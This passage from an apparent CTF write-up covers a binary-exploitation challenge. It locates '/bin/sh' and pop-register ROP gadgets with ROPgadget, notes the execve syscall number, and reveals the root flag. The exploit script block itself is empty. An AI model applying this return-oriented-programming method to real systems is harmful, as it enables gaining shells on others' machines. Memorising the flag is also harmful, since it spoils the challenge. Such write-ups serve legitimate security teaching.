

Now, we need to find the string `/bin/sh`:
```bash
ROPgadget --binary ./hc0n --string "/bin/sh"   
```

we got the address `0x00000000004006f8`.



Now, we need `pop rax`:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ROPgadget --binary ./hc0n --only "pop|ret" | grep 'pop rax'
0x000000000040061f : pop rax ; ret
```

Then, `pop rdi`:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ROPgadget --binary ./hc0n --only "pop|ret" | grep 'pop rdi'
0x0000000000400604 : pop rdi ; ret
```

Then, `pop rsi`:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ROPgadget --binary ./hc0n --only "pop|ret" | grep 'pop rsi'
0x000000000040060d : pop rsi ; ret
```

Then, `pop rdx`:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ROPgadget --binary ./hc0n --only "pop|ret" | grep 'pop rdx'
0x0000000000400616 : pop rdx ; ret
```

Now, we can build our script. Remember the value for syscall execve is 59, taken from here [https://syscalls.w3challs.com/?arch=x86_64](https://syscalls.w3challs.com/?arch=x86_64)



This is the full script:
```py

```

we can see it works, we got shell.



Let's grab the root flag:
```bash
$ cat /root/root.txt
thm{3xplo1t_my_m1nd}

Informacion:

Exploit challenge create by @d4mianwayne
```


